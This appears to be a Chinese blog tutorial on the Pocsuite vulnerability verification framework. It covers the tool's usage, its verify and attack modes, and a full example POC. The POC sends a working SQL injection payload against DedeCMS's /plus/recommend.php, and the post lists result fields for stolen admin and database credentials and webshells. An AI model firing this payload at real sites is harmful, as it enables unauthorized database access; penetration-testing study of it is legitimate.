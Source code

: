 +++
date = "2016-09-08T20:38:45+08:00"
description = ""
draft = false
tags = ["poc"]
title = "POC框架Pocsuite"
topics = ["Python", "Pentest"]

+++

### 0x00 关于Pocsuite
Pocsuite 是知道创宇安全研究团队打造的一款基于漏洞与 POC 的远程漏洞验证框架。可以让我们不用考虑过多的细节，只要考虑验证代码就可以，它封装了一些我们常用的东西，比如requests，在我们平常使用requests是要考虑cookie、要考虑header，但是在框架下则不需要有这些考虑，因为这些东西框架都帮你解决了。

### 0x01 简单介绍
* 安装
    * 使用pip install pocsuite即可安装
    ![安装pocsuite](/img/post/pocsuite_install.png)
* 常用参数
    * -u 指定一个目标url
    * -f 指定一个存放目标url的文件
    * -r 指定一个存放poc的文件夹
    * --report 导出结果到html文件
    * --cookie 携带cookie
    * --referer 修改referer
    * --user-agent 修改UA
* 模式
    * 执行一个poc有两种模式
        * \-\-verify 漏洞验证模式(只是验证，不能更改服务器的东西)
        * \-\-attack 漏洞利用模式
    * 示例
        * ```pocsuite -u "http://www.xxxx.com" -r poc_path/poc_name.py --atack```
* poc编写
    * 可以新建一个文件夹，命名为mypoc，里面就放你自己写的poc(当然也可以在mypoc里新建文件夹放一类poc，对poc进行分类)
    * 此时示例(对目标进行常见服务的测试，加载一类多个poc脚本)
        * ```pocsuite -u "http://www.xxxx.com" -r poc_path/server/ --verify```

* poc的命名规范
    * 漏洞ID_版本号_漏洞类型(其中不能有大写字母，所有符号要改为```"_"```),大致如下：
        * _xxxx_struct2_2016_s2_016_code_execution.py
        * _xxxx_dedecms_20130715_sql_inj.py
* poc的编写流程
    * 导入pocsuite API模块
    * 创建TestPOC类
    * 填写POC信息
    * 编写_berify()方法
    * 编写_attack()方法
    * 注册类

### 0x02 实例
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# 导入pocsuite的必要模块
from pocsuite.net import req # requests模块，和requests用法完全一样
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register

class TestPOC(POCBase):
    """docstring for TestPOC"""
    vulID            = ''      # VUL ID
    version          = ''      # 版本号,默认为1
    author           = ''      # POC 作者的大名
    vulDate          = ''      # 漏洞公开的时间,不知道就写今天
    createDate       = ''      # 编写 POC 的日期
    updateDate       = ''      # POC更新的时间,默认和编写时间一样
    references       = ['']    # 漏洞地址来源,0day 不用写
    name             = ''      # POC 名称
    appPowerLink     = ''      # 漏洞厂商主页地址
    appName          = ''      # 漏洞应用名称
    appVersion       = ''      # 漏洞影响版本
    vulType          = ''      # 漏洞类型,类型参考见 漏洞类型规范表
    desc             = ''' ''' # 漏洞简要描述
    samples          = []      # 测试样例,就是用 POC 测试成功的网站url，选填
    install_requires = []      # POC 第三方模块依赖，请尽量不要使用第三方模块

    def _verify(self, verify=True): # 漏洞测试代码
        result = {}
        target_url = self.url

        # 这里写入漏洞测试代码
        path = "/plus/recommend.php"
        payload = "?action=&aid=1&_FILES[type][tmp_name]=\\%27%20or%20mid=@`\\%27`%20/*!50000union*//*!50000select*/1,2,3,(select md5(512341)),5,6,7,8,9%23@`\\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294"
        html = req.get(target_url + path + payload, timeout=10).content
        if '5e8523b1645e6225001b9027cddc1c85' in html:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url + path
            result['VerifyInfo']['Path'] = path
            result['VerifyInfo']['Payload'] = payload
        
        return self.parse_attack(result)

    def _attack(self): # 漏洞利用代码
        # result = {}
        # # 先进行检测是否存在漏洞
        # if not self._verify(verify=False):
        #     return self.parse_attack(result)
        # target_url = self.url

        # # 这里写漏洞利用代码

        # return self.parse_attack(result)
        
        return self._verify() # 如果没漏洞利用代码，可以直接return测试函数

    def parse_attack(self, result): # poc输出函数，可以输出错误和成功信息
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Nothing returned')
        return output

register(TestPOC) #注册类
```

### 0x03 关于poc中result字典的内容
> ```
# result是一个字典，里面存储所有的漏洞信息:
result：{
    'DBInfo': {
        'Username': '管理员用户名',
        'Password'：'管理员密码',
        'Salt': '加密盐值',
        'Uid': '用户ID',
        'Groupid': '用户组ID'
        }
    'ShellInfo': {
        'URL': 'Webshell地址',
        'Content': 'Webshell内容'
        }
    'FileInfo': {
        'Filename': '文件名称',
        'Content': '文件内容'
        }
    'XSSInfo': {
        'URL': '验证URL',
        'Payload': '验证Payload'
        }
    'AdminInfo': {
        'Uid': '管理员ID',
        'Username': '管理员用户名',
        'Password': '管理员密码'
        }
    'Database': {
        'Hostname': '数据库主机名',
        'Username': '数据库用户名' ,
        'Password': '数据库密码',
        'DBname': '数据库名'
        }
    'VerifyInfo': {
        'URL': '验证URL',
        'Postdata': '验证POST数据',
        'Path': '网站绝对路径'
        }
    'SiteAttr': {
        'Process': '服务器进程'
        }
}
```